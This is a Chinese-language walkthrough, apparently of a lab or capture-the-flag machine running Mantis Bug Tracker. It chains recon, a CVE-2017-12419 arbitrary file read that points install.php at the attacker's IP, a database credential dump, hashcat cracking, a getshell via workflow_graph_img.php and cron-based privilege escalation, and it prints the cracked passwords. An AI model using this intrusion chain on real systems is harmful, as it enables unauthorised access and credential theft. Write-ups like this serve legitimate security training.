


# 信息收集

## nmap


# 80端口

对80端口扫端口


其中`bugtracker`下是`mantis bug tracker`的登录界面，上网查询了该系统的默认登录密码，`administrator:root`但是无法登录，从网上查询到的安装教程中可知，这个网站使用默认密码登陆之后需要修改密码，所以应该是修改过密码的


然后对http://url/bugtracker进行扫目录


config目录下有配置文件，但是config_inc.php读取不到


config_inc.php.sample可以读取，但是其中的数据库连接密码是无法连接到数据库的


直接访问admin界面会跳转到登录界面，在github上查看了源码知道admin目录下还有其他界面


install界面最下方有更新数据库的选项，我们不输入任何信息点击更新就会跳转到这一步


查看wp是找到一个漏洞，我觉得这个洞真的不是很好找，我在筛选中添加了条件还是有很多漏洞，其中存在这个漏洞

[0023173: CVE-2017-12419: Arbitrary File Read inside install.php script - MantisBT](./https://mantisbt.org/bugs/view.php?id=23173)


## 漏洞利用


按照给出的漏洞利用方式，读取http://url/bugtracker/admin/install.php?install=3&hostname=攻击机ip

然后再日志中就可以看到要读取的文件



接下来就是要猜测网站根目录的路径，经过尝试是在`/var/www/html/bugtracker`下，配合上面信息收集到的`config`目录下的`config_inc.php`，读取该配置文件，其中有数据库连接账号密码


```
 mysql -h 192.168.147.204 -P3306 -u root -p --skip-ssl
```

使用这个账号密码可以成功连接到数据库

```
show databases;
use bugtracker;
show tables;
select username,password from mantis_user_table;
```

可以通过数据库读取到管理员的账号密码信息


通过[hash类型识别网站](./https://hashes.com/en/tools/hash_identifier)识别hash类型，然后通过hashcat进行破解


最终得到账号密码为

```
administrator:prayingmantis
```

然后按照这篇漏洞说明报告创建相关的配置选项，然后访问http://url/bugtracker/workflow_graph_img.php，就可以getshell


# 提权

在提交local.txt时可以注意到用户mantis目录下有一把backup.sh，应该是用来备份的，运行pspy64，有个定时任务在运行，捕捉到了运行的密码，用这个密码切换到mantis用户



```
BugTracker007
```


该用户具有所有权限

